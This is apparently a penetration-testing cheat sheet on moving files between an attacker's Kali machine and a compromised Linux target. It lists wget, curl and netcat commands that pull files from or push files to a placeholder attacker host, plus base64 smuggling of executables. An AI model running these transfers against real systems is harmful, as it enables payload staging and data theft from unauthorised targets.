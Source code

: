 # Linux File Transfer



## Python SimpleHTTPServer

### on Attacker

```text
python -m SimpleHTTPServer
```

### python3

```text
python3 -m http.server
```

### on target

```text
wget <attackerip>:8000/filename
```

## Apache

### on Attacker

```text
cp filetosend.txt /var/www/html
service apache2 start
```

### on target

```text
wget http://attackerip/file
curl http://attackerip/file > file
fetch http://attackerip/file        # on BSD
```

## Netcat \(From Target to Kali\)

### Listen on Kali

```text
nc -lvp 4444 > file
```

### Send from Target machine

```text
nc <kali_ip> 4444 < file
```

## Netcat \(From Kali to Target\)

### on target, wait for the file

```text
nc -nvlp 55555 > file
```

### on kali, push the file

```text
nc $victimip 55555 < file
```

## Extra:

> To send the executable file to your machine:

base64 executable

* copy the output
* paste it in a file called file.txt
* decode it and create the executable

```text
base64 -d file.txt > executable
```

